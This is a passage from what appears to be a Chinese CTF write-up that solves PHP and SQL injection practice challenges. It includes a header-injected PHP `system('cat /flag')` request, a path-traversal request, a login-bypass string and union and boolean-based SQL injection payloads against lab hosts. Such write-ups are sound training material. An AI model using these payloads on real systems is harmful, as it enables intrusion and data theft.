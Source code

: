 ```http request
GET /?page=data:,x/profile HTTP/1.1
Host: ip:port
User-Agent: <?php system('cat /flag');?>
X-Forwarded-For: data:,x
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

### PHP基础-026

> 基础签到题

```http
GET /source.php?file=source.php?/../../../../ffffllllaaaagggg HTTP/1.1
Host: ip:port
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```



## SQL注入

### SQL注入-001
> 万能密码 `?username=admin' or 1=1 --+&password=1`
### SQL注入-002
> int型SQL注入 `?id=-1 union select 1,(select flag from ctf.flag),3 --+`
### SQL注入-003
> 字符型SQL注入 `?id=-1' union select 1,(select flag from ctf.flag),3 --+`
### SQL注入-004
> 双引号 `?id=-1" union select 1,(select flag from ctf.flag),3 --+`
### SQL注入-005
> 括号 `?id=-1) union select 1,(select flag from ctf.flag),3 --+`
### SQL注入-006
> 简单bool型
> 单引号括号 `?id=-1') union select 1,(select flag from ctf.flag),3 --+`
### SQL注入-007
> 简单bool型
```text
?id=1 order by 3 --+ # 查当前字段 
?id=1 and length(database()) = 3 --+ # 查询当前数据库长度
?id=1 and length(@@version_compile_os)< {10} --+ #查询操作系统字符长度
?id=1 and length(version())< {10} --+ #查询mysql版本字符长度
?id=1 and length(database())< {10} --+ #查询当前库字符长度
?id=1 and ascii(substr(sql语句,{1},1))={100} --+ #综合类查询
```
### SQL注入-008
> 时间型
```text
```